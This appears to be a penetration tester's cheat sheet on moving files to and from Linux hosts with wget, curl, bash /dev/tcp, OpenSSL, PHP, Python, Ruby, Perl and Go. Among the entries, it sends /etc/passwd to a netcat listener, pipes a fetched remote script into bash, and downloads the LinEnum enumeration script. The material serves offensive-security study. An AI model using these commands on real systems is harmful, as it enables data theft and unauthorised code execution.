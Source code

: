 # Linux File Transfer

### base64

```bash
base64 -w 0 <FILE>; echo
# We copy the content and decode it on our machine:
echo "<PASTE>" | base64 -d > <FILE>
```

### wget/fetch

```bash
# Download:
wget <PATH>
wget <PATH> -O <PATH>/<FILE>
fetch <IP>/<FILE> # FreeBSD
wget -r <URL> # Recursive download.
wget -r --no-parent <URL> # Download only a certain directory.
wget --no-parent -r <URL> --reject="index.html*" # Download only a certain directory (and delete all index.html files).

# Upload:
nc -nvlp 1234 # We listen through a port.
wget --post-file="/etc/passwd" <IP>:<PORT> # Upload with wget
```

### cURL

```bash
curl <IP>/<FILE> -o <PATH>/<FILENAME>
```

### Python

Python is often present in Linux and can be used to download files when Wget and cURL are not available. Although Python is not currently installed by default on Windows, typing Python at a command prompt opens the official Windows Store distribution with a one-click installation. Python is frequently installed on developer and IT computers, and is included by default in major enterprise financial applications such as Bloomberg (Bloomberg Professional Services).

```python
# Python2:
python2
import urllib
urllib.urlretrieve ("<URL>/<FILE>", "<RENAME FILE>")
# Python3:
python3
import urllib.request
urllib.request.urlretrieve("<URL>/<FILE>", "<RENAME FILE>")
```

### openssl (simples files)

OpenSSL is frequently installed and is also often included in other software distributions, and is used by system administrators to generate security certificates, among other tasks. OpenSSL can be used to send "nc-style" files:

```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem # Create certificate
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/example.sh # Server
openssl s_client -connect <IP>:80 -quiet > example.sh # Download file
```

### Bash (simples files)

También puede haber situaciones en las que no se disponga de herramientas obvias de transferencia de archivos. En este caso, siempre que esté instalada la versión **2.04 o superior de bash** (compilada con `--enable-net-redirections`), se puede utilizar el archivo de dispositivo `/dev/tcp` incorporado para descargas de archivos simples.

```bash
# First, open a server with the resource to be downloaded.
# Download:
exec 3<>/dev/tcp/<LHOST>/80 # Connect to the target web server.
echo -e "GET /<FILE> HTTP/1.1\n\n">&3 # HTTP GET Request
cat <&3 # Print the response.
```

### PHP

```bash
# File_get_contents():
php -r '$file = file_get_contents("<URL>"); file_put_contents("<FILENAME>",$file);'
# Fopen():
php -r 'const BUFFER = 1024; $fremote = fopen("<URL>", "rb"); $flocal = fopen("<FILENAME>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
# If the php-curl module has been installed, it can be used alternatively:
php -r '$rfile = "<URL>"; $lfile = "<FILENAME>"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'
php -r '$lines = @file("<URL>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

### Ruby

```ruby
ruby -e 'require "net/http"; File.write("<FILE>", Net::HTTP.get(URI.parse("<URL>")))'
```

### Perl

```perl
perl -e 'use LWP::Simple; getstore("<URL>/<FILE>", "<RENAME FILE>");'
```

### Go

```go
package main

import (
     "os"
     "io"
     "net/http"
)

func main() {
     lfile, err := os.Create("LinEnum.sh")
     _ = err
     defer lfile.Close()

     rfile := "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"
     response, err := http.Get(rfile)
     defer response.Body.Close()

     io.Copy(lfile, response.Body)
}
```

